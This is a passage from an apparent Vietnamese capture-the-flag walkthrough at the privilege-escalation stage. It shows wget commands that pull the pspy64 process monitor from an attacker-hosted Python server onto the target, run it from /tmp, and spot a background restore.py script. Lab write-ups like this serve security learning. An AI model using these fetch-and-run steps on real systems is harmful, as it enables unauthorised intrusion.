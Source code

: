 - Đến đây, tiếp tục sử dụng `pspy64`, là một tool hiện các `cronjob` hoặc script chạy ngầm không cần quyền root.

- Tool này không có sẵn trong máy mục tiêu, vì vậy đầu tiên tải nó về máy attacker.

``` bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

![Hoangdeptrai](Images/46.png)

- Sau đó tạo python server và tải nó bên phía máy mục tiêu.

```bash
wget http://10.21.175.20:2222/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```

![Hoangdeptrai](Images/47.png)

- Tiến hành chạy `pspy64`, nhận thấy file `restore.py` đang chạy trong hệ thống.

![Hoangdeptrai](Images/48.png)
